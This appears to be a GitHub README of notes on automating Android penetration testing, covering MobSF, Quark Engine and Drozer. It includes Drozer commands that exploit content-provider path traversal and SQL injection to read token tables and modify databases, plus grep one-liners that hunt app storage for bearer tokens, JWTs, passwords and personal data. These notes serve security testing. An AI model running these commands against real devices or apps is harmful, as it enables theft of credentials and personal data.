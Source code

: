 # Android-Penetration-Testing-Automation

_________________________________________________________________________________________________________________________________________________

=>Tools for Android Penetration Testing Automation
1. MobSF (Mobile Security Framework) -	A comprehensive security testing framework that performs static and dynamic analysis on Android apps. Ideal for automated baseline testing.
2. Quark Engine	- Signature-based malware detection system that analyzes APK internals for suspicious behavior.
3. Drozer -	A framework for exploring an application's IPC attack surface. Requires an agent be installed on the device.
4. Objection -	A Frida-based runtime exploration toolkit. Capable of injecting hooks and inspecting app behavior without requiring access to source code.
5. Medusa	- A modular framework designed for automated dynamic analysis of mobile apps, with support for both Android and iOS.
_________________________________________________________________________________________________________________________________________________

**MobSF (Mobile Security Framework)**

1. Signer Certificate
The Signer Certificate section displays key details of the app's signing certificate, which include:
X.509 Subject: Identified as "CN=john doe".
Validity Period: Valid from May 12, 2023, until May 5, 2048.
Signature Algorithm: Uses the RSA algorithm (rsassa_pkcs1v15) with a key size of 2048 bits.
Issuer: Also "CN=john doe", indicating self-signing.
Hashes (SHA256, SHA1, MD5, SHA512): Various cryptographic hashes that help verify the certificate’s authenticity.

2. Android API
   APIs refer to the libraries (and the specific methods within those libraries) that are accessed by the application. These can be part of the Android operating system or third-party libraries included within the app. APIs enable various functionalities such as networking, cryptography, user interface customization, data storage, multimedia management, and more.
   Notable entries include 'HTTP Connection' and 'HTTPS Connection' for networking operations, with HTTP specifically categorized as insecure for server communication. We also see an entry for the Java Reflection API, which is often used by malicious actors to obfuscate method names when called.
_________________________________________________________________________________________________________________________________________________

**Quark**
Quark Engine, as stated in the official documentation, is "an open source software for automating analysis of suspicious Android application
Key Features of Quark Engine
1. Malware Scoring System	- Quark Engine assigns scores to detected behaviors based on severity and impact, providing a quantifiable measure of an app’s overall threat level.
2. Rule-Based Analysis	- The engine uses customizable JSON-based rules to detect known malicious patterns and behaviors, allowing users to update or extend detection logic.
3. Five Levels of Crime Investigation	- Quark Analyzes APKs across five distinct layers, each focusing on different behavioral aspects of the application.
4. Permission Analysis	Reviews - requested permissions to flag those that are excessive, suspicious, or indicative of malicious behavior.
5. API Calls and Tracking -	Tracks API calls, especially those accessing sensitive system resources or user data, to detect suspicious activity.
6. Dynamic Analysis -	Complements static analysis by observing app behavior at runtime, helping detect actions triggered only under specific conditions..
7. Graphical Reports	- Quark generates visual representations of behavior flows and interactions, simplifying the understanding of complex threat patterns.
8. Classifying Crime Rules - quark -s -a myapp.apk -r quark-rules -t 100 -c
9. Web Report - quark -s -a myapp.apk -r quark-rules -t 100 -w report
10. 

**Installation & Usage**
1. python3 -m venv quark
2. source quark/bin/activate
3. pip3 install -U quark-engine
4. quark --version
5. Once the Quark Engine is installed, we will download the Quark Rules using the following commands:
6. git clone https://github.com/quark-engine/quark-rules
7.  ls -l quark-rules/rules
8.  quark -s -a myapp.apk -r quark-rules
      -s is used to show the summary report, while the options -a and -r specify the APK file and set of rules accordingly

 OR install in kali
 1. sudo apt install quark-engine
 2.  git clone https://github.com/quark-engine/quark-rules
 3.  mkdir -p /root/.quark-engine
 4.  cp -r /home/kali/Desktop/quark-rules /root/.quark-engine/quark-rules
 5.   quark -a myapp.apk -s -r /home/kali/Desktop/quark-rules/rules
 6.   chown -R $(whoami):$(whoami) /home/kali/Desktop/quark-rules (if needed for permission)
 7.   chmod -R u+rX /home/kali/Desktop/quark-rules (if needed for permission)
 8.   quark -s -a myapp.apk -r  /home/kali/Desktop/quark-rules/rules -t 100 -w report.html
 9.   quark -s -a myapp.apk -r  /home/kali/Desktop/quark-rules/rules -t 100 -w /home/kali/Desktop/report2
________________________________________________________________________________________________________________________________________________

**Drozer**
Drozer is a security testing framework that allows you to operate as if you're another Android application, enabling direct interaction with other apps, the operating system, and the device itself. This perspective closely mimics how a real, installed app would behave on the system, making it ideal for identifying inter-app communication vulnerabilities and misconfigurations.
(detective app for Android that pretends to be another app so it can check how that app and the phone behave)
(Drozer = a hired tester who dresses up as a normal app and walks around the phone asking, “Hey, can I use this?” If things answer “yes” when they shouldn’t, that’s a vulnerability.)

**Key Features**
**Feature**	              **Description**
Security Testing          : Framework	Drozer offers a robust framework with built-in modules that simulate various attack scenarios.
App Interaction	        :Enables interaction with Android's Inter-Process Communication (IPC) components such as content providers, broadcast receivers, and services. This allows testers to probe and exploit                              exposed components in other apps.
Command-line Interface	  :Operates via a powerful CLI, ideal for fast testing, automation, and integration into custom penetration testing workflows or scripts.
Module-based Architecture :Designed with extensibility in mind, Drozer supports writing custom modules in Python, enabling testers to create app-specific or system-specific security checks.


Commands:
1. adb devices -l
2. adb -s 28061JEGR08933 tcpip 5555 -> Tell device to listen on TCP 5555 (while USB plugged in)
3. adb -s 28061JEGR08933 shell ip -f inet addr show wlan0 -> Get device IP (if you already ran earlier and have 192.168.1.3, skip step 4 — otherwise run)
4. adb connect <ip>:<port> -> Connect ADB over Wi-Fi
5. adb -s <ip>:<port> forward tcp:31415 tcp:3141 -> Forward the Drozer port and connect the console
6. adb -s <ip>:<port> install -r myapp.apk -> Transerfering the apk
7. pipx install drozer -> install of drozer
8. on the device ont he drozer
9. run app.package.list -> list all the packages installed on the device
10. run app.package.list -f MyNoteBook -> We can also specify the filter MyNoteBook (the name of the app we want to assess) to find only the package name of the app we are interested in.
11. run app.package.info -a <package name> -> some general information about this app
12. run app.package.manifest <package name> -> read the manifest file for this application
13. run app.package.attacksurface <pakage name> -> components of the application are accessible to other apps
14. run scanner.provider.traversal -a <package name> ->  if there are any content providers vulnerable to Path Traversal attacks.
15. run app.provider.read <Vuerbale path from path traversal attack content://provide the url>/../../../system/etc/hosts -> use another module read the contents of the file /system/etc/hosts by exploiting the vulnerable content provider. ( ex. run app.provider.read content://com.hackthebox.myapp.fileprovider/../../../system/etc/hosts)
16. run scanner.provider.finduris -a <package name> -> explore the providers available URIs. (URLs accessible to other apps)
                                                       This module scans the target app for exported Content Providers and tries to discover any accessible URIs (like database paths).
18. run scanner.provider.injection -a <package name> -> to scan the app for content providers vulnerable to SQL injection
    Projection and Selection parameters. In this context, Projection defines which columns are returned in a query, while Selection corresponds to the WHERE clause used to filter rows
19. run scanner.provider.sqltables -a <package name> -> module that automatically exploits the identified injection points and tries to enumerate the database tables.
    run app.provider.query <paste the url with content:URL where sql is vulerbale> -> module to query the default table associated with this URI
20. jadx-gui myapp.apk -> check for code where the database is initialized (db).
21. run app.provider.query  --projection "<column1>, <column2>" -> exploit the SQL injection behavior to further read data
22. run app.provider.query <content://provider_uri> --projection "<column1>, <column2>, (SELECT token FROM Tokens)" -> select token fromm token needs to be changed when we see the db file
23. run app.provider.insert <content://provider_uri> --int <column1> 2 --string <column2> test ->  insert new entries into the database. number 2 and test
24. run app.provider.query <content://provider_uri> --projection "<column1>, <column2>" -> to check where new data has been added are not
25. run app.provider.update <content://provider_uri> --selection "<column1>=?" --selection-args 2 --string <column2> doe -> Update Existing Entries all data changes as per db or data is stored
26. run app.provider.delete <content://provider_uri> --selection "<column1>=?" --selection-args 2 -> Delete Existing Entry (delete the entry with _id = 2 )
27. 

_________________________________________________________________________________________________________________________________________________


**********Android Local Storage Command**********

Step 1 : adb shell
step 2 : cd /data/data/<binary-file>
Step 3: below command to find data
1. find . -type f -exec strings {} \; | grep -iE "Bearer|access_token|Authorization"  
2. find . -type f -exec grep -al "secret" {} \;
3. find . -type f -exec strings {} \; | grep "secret"
4. find . -type f -exec strings {} \; | grep -E "\b[6-9][0-9]{9}\b"
5. find . -type f -exec strings {} \; | grep "mobilenumber/name/anything"
6. find . -type f -exec grep -aiE "token|auth|bearer|access" {} \;
7.cd shared_prefs
  grep -aiE "token|auth|session" *
8. find . -type f -exec strings {} \; | grep -iE "authorization|token|apikey|password|bearer|session|jwt|secret"
9. find . -type f -exec strings {} \; | grep -E '[A-Za-z0-9+/=]{20,}' | grep -v '\.js'
10. find . -type f -exec strings {} \; | grep -iE 'name|address|gender|mobile|phone|email'
11. find . -type f -exec strings {} \; | grep -iE '(_updateSessionFromEvent|getSession|setSession|_session|session|sessions|onPanSessionStart|computeSecret|keyFromSecret|fromSecret|getSecret|PasswordBasedCipher|withXSRFToken|cancelToken|XSRF-TOKEN|X-XSRF-TOKEN|authorization|proxy-authorization|CancelToken)'
12. find . -type f -exec strings {} \; | grep -E 'eyJ[A-Za-z0-9_-]{10,}.*\.eyJ[A-Za-z0-9_-]{10,}\..*'


**********Android Command***************
1. jadx-gui myapp.apk
2. 
